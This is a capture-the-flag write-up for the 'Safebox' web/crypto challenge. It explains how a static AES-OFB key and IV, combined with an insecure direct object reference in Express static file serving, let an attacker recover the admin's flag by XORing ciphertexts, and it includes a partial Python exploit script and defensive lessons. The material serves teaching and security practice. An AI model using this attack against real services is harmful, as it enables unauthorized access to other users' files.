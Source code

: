 # Safebox (WEB/CRYPTO)



## Challenge Description
The challenge presented a web application called "Safebox" described as "Your files. Encrypted at rest." It allowed user registration, login, and file uploads. Files were encrypted before storage. The application reset every 15 minutes, and upon startup, a flag.txt file was uploaded to a default admin user's account. The goal was to retrieve this flag.

## Source Code Analysis
The provided source code was a Node.js application using the Express framework. Key observations:

### 1.Encryption: 
Files were encrypted using aes-256-ofb (Output Feedback mode).

```

function encrypt(buffer, key, iv) {
    const cipher = crypto.createCipheriv('aes-256-ofb', key, iv);
    let encrypted = cipher.update(buffer);
    encrypted = Buffer.concat([encrypted, cipher.final()]);
    return encrypted;
}
```
### 2.Key/IV Source: 
The encryption key and iv were derived directly from environment variables (process.env.ENCRYPTION_KEY, process.env.ENCRYPTION_IV) within the uploadFile function scope.

```
const uploadFile = async (username, fileName, buffer) => {
    const key = Buffer.from(process.env.ENCRYPTION_KEY, 'hex');
    const iv = Buffer.from(process.env.ENCRYPTION_IV, 'hex');
    // ... encryption logic ...
}
```
This implies the key and IV are static for the entire 15-minute lifetime of the server process and are the same for all users and all files encrypted during that period.

### 3.Authentication & Authorization:
Authentication was handled via a token (x-token header) checked against an in-memory users array.
An authentication middleware verified the token before granting access to subsequent routes.
File storage directories were named using sha256(username).
Static file serving for uploads was handled by express.static mounted at /files, crucially after the authentication middleware.
```

// Auth Middleware (Simplified)
app.use((req, res, next) => {
    // ... find user by token ...
    req.user = user.username; // Sets username for later potential use
    next(); // Allows access to next routes if token is valid
});

// File Serving (Placed AFTER auth middleware)
app.use("/files", express.static(path.join(__dirname, 'uploads_dir')));
```
### 4.Admin Flag: 
On startup, flag.txt is read and uploaded for the admin user using the uploadFile function, meaning it's encrypted with the static key/IV.

## Identifying Vulnerabilities
Two primary vulnerabilities were identified:

### 1.Static Key/IV Reuse in AES-OFB (Cryptographic Weakness):
 OFB is a stream cipher mode. Encryption involves XORing the plaintext (P) with a keystream (K) generated from the key and IV: C = P ⊕ K. Because the same key and IV were used for every encryption operation within a 15-minute window, the same keystream was used.

If we encrypt a known plaintext (P1) to get ciphertext C1, and the target flag plaintext (P_flag) is encrypted to get C_flag, we have:

    C1 = P1 ⊕ K
    C_flag = P_flag ⊕ K XORing these two ciphertexts cancels out the keystream:
    C1 ⊕ C_flag = (P1 ⊕ K) ⊕ (P_flag ⊕ K) = P1 ⊕ P_flag If we choose a simple known plaintext, like all null bytes (P1 = 0), then:
    C1 ⊕ C_flag = 0 ⊕ P_flag = P_flag Therefore, by uploading a file of null bytes, obtaining its ciphertext (C1), obtaining the flag's ciphertext (C_flag), and XORing them together, we can recover the flag plaintext (P_flag).
### 2.Insecure Direct Object Reference (IDOR) / Path Traversal (Web Weakness):
While the authentication middleware correctly guarded access to routes defined after it, the express.static middleware itself does not perform authorization based on the req.user property. It simply serves files based on the requested path relative to its root (uploads_dir).

Since user directories are predictably named (sha256(username)), any authenticated user could request a file from another user's directory by crafting the correct URL. For example, a logged-in user testuser could request /files/sha256('admin')/flag.txt and the server would serve it, as the initial authentication check (is the token valid?) passed.

## Exploitation Strategy
The exploit combines both vulnerabilities:

_1.Register:_  Create a new user (e.g., ctfuser) via the /api/register endpoint to obtain a valid authentication token.
_2.Upload Known Plaintext:_ Create a file consisting of null bytes (\x00) large enough to cover the expected flag length (e.g., 1-2KB). Upload this file (e.g., known.txt) to the ctfuser account via /api/upload.
_3.Calculate Hashes:_ Determine the SHA256 hashes for the registered username (ctfuser) and the target username (admin).
_4.Download Ciphertexts (using IDOR):_
Using the obtained token, download the encrypted known plaintext file from the user's directory: GET /files/sha256('ctfuser')/known.txt. Let this be C1.
Using the same token, exploit the IDOR to download the encrypted flag file from the admin's directory: GET /files/sha256('admin')/flag.txt. Let this be C_flag.
_5.Recover Flag:_ Perform a byte-wise XOR operation on the downloaded ciphertexts: Flag = C1 ⊕ C_flag.

## Exploit Script
A Python script using the requests library was used to automate this process:


```
import requests
import hashlib
import base64
import os
import time

# --- Configuration ---
TARGET_URL = "https://safebox-1bbcbadc1e5d.1753ctf.com"
USERNAME = f"ctfuser_{int(time.time()) % 10000}" # Unique username per run
PASSWORD = "password123"
KNOWN_FILENAME = "known.txt"
KNOWN_PLAINTEXT_SIZE = 2048
ADMIN_USERNAME = "admin"
FLAG_FILENAME = "flag.txt"
# --------------------

session = requests.Session()

def sha256_hex(data_bytes):
    return hashlib.sha256(data_bytes).hexdigest()

def xor_bytes(a, b):
    length = min(len(a), len(b))
    return bytes([x ^ y for x, y in zip(a[:length], b[:length])])

print(f"[+] Target URL: {TARGET_URL}")
print(f"[+] Using temporary username: {USERNAME}")

# 1. Register User
# ... (registration code) ...
# check for token

# Prepare headers for authenticated requests
auth_headers = {"x-token": token}

# 2. Prepare and Upload Known Plaintext
# ... (plaintext generation and upload code) ...
# check for success

# 3. Calculate Directory Hashes
user_hash = sha256_hex(USERNAME.encode('utf-8'))
admin_hash = sha256_hex(ADMIN_USERNAME.encode('utf-8'))
# ... (print hashes) ...

# 4. Download Encrypted Files
file_base_url = f"{TARGET_URL}/files"
enc_known_url = f"{file_base_url}/{user_hash}/{KNOWN_FILENAME}"
enc_flag_url = f"{file_base_url}/{admin_hash}/{FLAG_FILENAME}"

enc_known = None
enc_flag = None

# ... (download enc_known with error handling) ...
# ... (download enc_flag with error handling) ...

# 5. XOR Ciphertexts to Decrypt Flag
print("[+] XORing the two ciphertexts...")
# ... (check if downloads succeeded) ...
decrypted_flag_bytes = xor_bytes(enc_known, enc_flag)

# ... (print decrypted flag, handling potential decode errors) ...

```

## The Flag
Running the exploit script successfully registered a user, uploaded the null-byte file, downloaded both ciphertexts (leveraging the IDOR for the admin's file), and performed the XOR operation, revealing the flag.

Flag: 1753c{encrypt3d_but_n0t_s0000_s4fe_b0x} (Replace with actual flag if known)

<!-- Conclusion
This challenge combined a common web vulnerability (IDOR/Path Traversal) with a critical cryptographic mistake (static key/IV reuse in a stream cipher mode). It highlights the importance of:

Proper Cryptographic Implementation: Never reuse Key/IV pairs for stream ciphers like OFB or CTR. Generate unique IVs for each encryption operation. Consider stronger modes or authenticated encryption (AEAD modes like AES-GCM).
Defense in Depth & Authorization: Authentication is not enough. Authorization checks must be performed at the point of resource access to ensure a user is only accessing resources they are permitted to, even if they have a valid session/token. express.static does not perform application-level authorization. -->